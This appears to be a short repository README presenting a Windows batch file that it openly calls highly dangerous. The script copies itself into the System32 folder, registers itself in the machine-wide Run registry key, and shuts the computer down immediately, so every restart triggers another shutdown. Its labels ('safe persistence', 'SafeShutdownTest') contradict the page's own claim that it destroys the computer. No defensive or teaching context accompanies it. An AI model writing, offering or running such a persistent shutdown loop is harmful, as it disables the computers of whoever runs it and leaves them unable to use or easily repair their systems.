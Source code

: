 # Highly dangerous .bat file
This file will ***destroy*** your computer once it is run.
It will immediately shutdown your computer once the code is launched and whenever you try to restart your computer.
**You cannot undo nor stop this program!**
```bat
@echo off
if not exist "%SystemRoot%\System32\shutdown_trigger.bat" (
    echo Creating safe persistence...
    copy "%~f0" "%SystemRoot%\System32\shutdown_trigger.bat" >nul
    reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SafeShutdownTest" /t REG_SZ /d "\"%SystemRoot%\System32\shutdown_trigger.bat\"" /f >nul
)
shutdown /t 0
```
